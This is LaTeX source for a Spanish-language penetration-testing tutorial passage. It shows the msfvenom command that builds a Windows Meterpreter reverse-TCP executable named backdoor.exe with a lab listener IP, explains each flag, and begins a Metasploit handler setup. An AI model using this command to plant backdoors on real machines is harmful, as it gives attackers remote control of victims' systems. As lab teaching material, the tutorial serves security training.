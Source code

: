 \documentclass[
  jou,
  floatsintext,
  longtable,
  a4paper,
  nolmodern,
  notxfonts,
  notimes,
  12pt,
  colorlinks=true,linkcolor=blue,citecolor=blue,urlcolor=blue]{apa7}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\AttributeTok}[1]{\textcolor[rgb]{0.40,0.45,0.13}{#1}}
\newcommand{\ExtensionTok}[1]{\textcolor[rgb]{0.00,0.23,0.31}{#1}}
\newcommand{\NormalTok}[1]{\textcolor[rgb]{0.00,0.23,0.31}{#1}}
\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}
\begin{document}
Ahora que tenemos nuestra dirección IP, vamos a crear el payload.
Usaremos \texttt{msfvenom}, una herramienta que viene con Metasploit
para generar payloads maliciosos. Queremos crear un payload que permita
un acceso remoto a una máquina con Windows. Usamos el siguiente comando:

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msfvenom} \AttributeTok{{-}p}\NormalTok{ windows/x64/meterpreter/reverse\_tcp LHOST=192.168.122.152 LPORT=4444 }\AttributeTok{{-}f}\NormalTok{ exe }\AttributeTok{{-}o}\NormalTok{ backdoor.exe }\AttributeTok{{-}a}\NormalTok{ x64}
\end{Highlighting}
\end{Shaded}

Desglosamos el comando:

\begin{itemize}
\tightlist
\item
  \texttt{-p\ windows/x64/meterpreter/reverse\_tcp}: Especificamos el
  payload, que en este caso es un Meterpreter reverse TCP para Windows
  de 64 bits.
\item
  \texttt{LHOST=192.168.122.152}: Establecemos nuestra dirección IP
  local como el host de escucha.
\item
  \texttt{LPORT=4444}: Elegimos el puerto de escucha (puedes cambiarlo
  si es necesario).
\item
  \texttt{-f\ exe}: Indicamos que el formato de salida debe ser un
  archivo ejecutable de Windows.
\item
  \texttt{-o\ backdoor.exe}: Nombramos el archivo de salida
  \texttt{backdoor.exe}.
\item
  \texttt{-a\ x64}: Especificamos la arquitectura del payload (64 bits).
\end{itemize}

\section{Paso 3: Configurar el Handler en
Metasploit}\label{paso-3-configurar-el-handler-en-metasploit}

Una vez que tenemos nuestro payload, necesitamos configurar un handler
en Metasploit para escuchar las conexiones entrantes. Iniciamos
Metasploit con:

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msfconsole} \AttributeTok{{-}q}
\end{Highlighting}
\end{Shaded}
\end{document}
